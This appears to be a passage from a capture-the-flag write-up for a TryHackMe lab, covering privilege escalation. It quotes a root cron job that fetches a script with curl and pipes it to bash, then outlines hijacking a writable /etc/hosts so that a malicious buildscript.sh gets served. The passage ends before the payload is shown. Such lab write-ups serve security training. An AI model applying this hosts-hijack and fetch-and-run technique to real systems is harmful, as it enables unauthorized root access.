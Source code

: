 ## Privilege Escalation
### Viewing /etc/crontab

```bash
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

- We must inject code into `buildscript.sh` inorder to escalate our privilege.
- But, the file is being downloaded from **overpass.thm**
- It turns out that **overpass.thm** is `127.0.0.1`. And the server is being hosted by **tryhackme** user, so we can't change the script file.

```bash
james@overpass-prod:~$ ping overpass.thm
PING overpass.thm (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.018 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.034 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.034 ms

--- overpass.thm ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2052ms
rtt min/avg/max/mdev = 0.018/0.028/0.034/0.009 ms
james@overpass-prod:~$ ps -aux | grep server
tryhack+   635  0.1  1.2 1010336 12176 ?       Ssl  18:21   0:07 /home/tryhackme/server -p 80
```

### Modifying /etc/hosts

- If we look at the linpeas output closely, we can find that **/etc/hosts** file is writable.
- So, we can change the IP address and host a different **buildscript.sh** with our malicious code. (Maybe we can add James to the sudoers group, we know his password!)
- Before modifying the IP address, we must replicate the directory structure: `/downloads/src/buildscript.sh` and host a server:
